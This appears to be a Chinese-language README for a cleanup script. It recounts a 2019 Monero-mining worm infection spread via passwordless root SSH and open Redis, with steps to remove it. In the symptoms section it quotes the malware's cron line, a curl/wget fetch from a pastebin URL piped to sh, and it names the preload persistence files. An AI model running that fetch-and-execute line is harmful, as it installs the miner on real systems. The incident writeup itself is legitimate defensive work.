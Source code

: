 背景

20190409 晚上阿里云邮件预警提示有服务器不断向其他服务器发送6379，22端口的请求，同时封闭了该服务器的端口，后来阿里云披露出来是门罗币挖矿病毒。 该病毒可以通过免密钥登录的方式无限复制，只要中招服务器有对应的免密钥登录到其他服务器的配置，都会被感染。


表现


`
[root@dev-us-api ~]# crontab -l
`

*/15 * * * * (curl -fsSL https://pastebin.com/raw/v5XC0BJh||wget -q -O- https://pastebin.com/raw/v5XC0BJh)|sh

crontab中的任务删除过段时间会自动创建（其实后来发现是基于预加载库的拦截，每次执行ls ll 等命令都会刷新这个任务计划，木马会重新写入）
有的服务器top可以看到占用cpu较高的应用有的服务器看不到
ps  看不到对应进程

尝试建立大量的22、6379端口请求


传播途径：

1. root的免密钥登录（我是这个）
2. 还有一个redis的无密码登录（网上其他有人因为这个中）
3. jenkins 漏洞侵入


处理流程

我查了很多资料后来找到一个busybox 工具，这个工具可以无依赖的让你使用操作系统常用的命令比如ps ls rm kill netstat 等等。可以用这些命令来查询被隐藏或者你差不到的应用。

1. ###确定请求地址：
 	pastebin.com，所以我在安全组里直接封掉了这个网站的所有请求，或者可以通过本地hosts的方式将这个网址解析为本机等等都可以

2. ###安全加固：
	默认这个病毒是通过22ssh 端口传染，所以ssh服务 的端口不能是默认，需要修改一个其他端口。关闭root登录，修改/etc/ssh/sshd_config 中PermitRootLogin yes 改为no。
	
	redis 尽量不要绑定到0.0.0.0 改为内网ip或者127.0.0.1，同时设置RequirePass 密码


3. ###删除木马
	核心的两个病毒文件（别急着删除，这里需要用busybox 去删除，直接rm 去删除的话，当你执行ls之类的命令，木马会重新被执行）
 	/etc/ld.so.preload 
 	/usr/local/lib/libpamcd.so
 
	其他病毒文件
		rm -f /etc/cron.d/tomcat
		rm -f /etc/cron.d/root
		rm -f /var/spool/cron/
		rm -f /tmp/ld.so.preload* 	
4. ###清理进程

	这里需要busybox，busybox 安装比较麻烦（而且不同的发行版编译的时候会遇到各种问题），我这里直接把命令放在版本库里了，直接git clone ，执行脚本即可。
	脚本我已经整理好了.
	脚本里面包含我遇到的 kerberods和khugepageds 两个木马进程和我其他服务器中招的kthrotlds，剩下的就是其他人遇到的我也整理进来，其他木马 可以通过busybox ps aux 来查看 ，基本从/tmp 启动的进程都是有问题的，所以可以仔细检查，看脚本的执行流程来删除掉就可以了
	
	最后需要重启（手动）。
使用方法
	`cd /usr/local/src`

	`git clone https://github.com/unixtommy/virus_clean.git`

	`cd virus_clean`

	`sh virus_clean.sh`

	`重启`


附：比较感谢这个朋友，我主要参考了他的做法，而且他的情况跟我类似，也不完全类似，但是差不多了。

[Linux 挖矿病毒 khugepageds的处理](https://www.wangdb.com/archives/1599.html)
https://www.wangdb.com/archives/1599.html

